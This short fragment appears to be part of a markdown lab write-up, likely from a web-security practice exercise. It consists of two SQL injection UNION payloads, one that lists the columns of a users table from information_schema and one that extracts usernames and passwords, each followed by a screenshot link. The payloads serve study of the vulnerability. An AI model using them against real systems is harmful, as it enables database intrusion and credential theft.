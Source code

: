 ' UNION SELECT COLUMN_NAME, DATA_TYPE FROM information_schema.columns WHERE table_name = 'users_ppqzxm' --
 ![alt text](image-43.png)
' UNION SELECT username_rcqolz, password_lxsfnj FROM users_ppqzxm –
 ![alt text](image-44.png)
